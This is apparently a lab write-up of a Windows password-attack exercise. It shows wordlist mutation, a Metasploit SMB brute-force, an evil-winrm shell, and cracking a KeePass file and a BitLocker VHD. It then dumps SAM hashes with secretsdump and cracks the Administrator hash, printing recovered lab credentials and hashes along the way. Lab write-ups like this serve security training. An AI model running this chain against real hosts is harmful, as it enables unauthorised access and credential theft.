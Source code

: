 ----

The next host is a Windows-based client. As with the previous assessments, our client would like to make sure that an attacker cannot gain access to any sensitive files in the event of a successful attack. While our colleagues were busy with other hosts on the network, we found out that the user **`Johanna`** is present on many hosts. However, we have not yet been able to determine the exact purpose or reason for this.

With this information I tried to determine the password of the user johanna.
I creadted a custom wordlist woth the provided mutation and password lists.

```shell
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

With this new list I brute-forced the smb service. 

```shell
msfconsole -q
search smb_login
use 0
set rhost <target>
set SMBUser johanna
set pass_list mut_password.list
set STOP_ON_SUCCESS true
run
```

```
[+] 10.129.91.222:445     - 10.129.91.222:445 - Success: '.\johanna:1231234!'
```

Now that we have a password, we can try to list the smb shares

```shell
smbclient -U johanna -L \\\\10.129.91.222\\
Password for [WORKGROUP\johanna]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        david           Disk      
        IPC$            IPC       Remote IPC

```

We did not have access to the david share. 
Next I checked if I can use evil-winrm with the credentials.

```shell
nxc winrm 10.129.91.222 -u johanna -p 1231234!
WINRM       10.129.91.222   5985   WINSRV           [*] Windows 10 / Server 2019 Build 17763 (name:WINSRV) (domain:WINSRV)
WINRM       10.129.91.222   5985   WINSRV           [+] WINSRV\johanna:1231234! (Pwn3d!)
```
This seems to work.

```shell
evil-winrm -i 10.129.91.222 -u johanna -p 1231234!
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\johanna\Documents> 
```

In the Documents folder there is a file called `Logins.kdbx`. This is a KeyPass file. I downloaded it and tried to crack the master key.

```shell
*Evil-WinRM* PS C:\Users\johanna\Documents> download Logins.kdbx /home/htb-ac-1473407/Desktop/logins.kdbx
                                                                                                                                                                                       
Info: Downloading C:\Users\johanna\Documents\Logins.kdbx to /home/htb-ac-1473407/Desktop/logins.kdbx
                                                                                           
Info: Download successful!            
```

```shell
keepass2john Logins.kdbx > keepasshash
john --wordlist=mut_password.list keepasshash
```
It worked after 5 mins

```shell
Qwerty7!         (logins)   
```

I logged into the KeePass with the master key I found and got the password from David

`david:gRzX7YbeTcDG7`

With these credential I could get access to the smb share called david. In this share, there was a ,vhd file. It was protected with bitlocket

```shell
bitlocker2john -i Backup.vhd > bitlockerhash
```

The password is:
```shell
123456789!       (?)   
```

Next I had to mount the vhd. I used the following guide: https://medium.com/@kartik.sharma522/mounting-bit-locker-encrypted-vhd-files-in-linux-4b3f543251f0

It had a SAM and SYSTEM hive which I dumped with secretsdump.py

```shell
secretsdump.py -sam SAM -system SYSTEM LOCAL
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e53d4d912d96874e83429886c7bf22a1:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9e73cc8353847cfce7b5f88061103b43:::
sshd:1000:aad3b435b51404eeaad3b435b51404ee:6ba6aae01bae3868d8bf31421d586153:::
david:1009:aad3b435b51404eeaad3b435b51404ee:b20d19ca5d5504a0c9ff7666fbe3ada5:::
johanna:1010:aad3b435b51404eeaad3b435b51404ee:0b8df7c13384227c017efc6db3913374:::
```

To crack the adminstrator hash, I used hashcat.

```shell
hashcat -m 1000 adminhash mut_password.list
```

It recoved the following password

`e53d4d912d96874e83429886c7bf22a1:Liverp00l8!`

Now I can RDP or WINRM with the administrator account and get the flag.
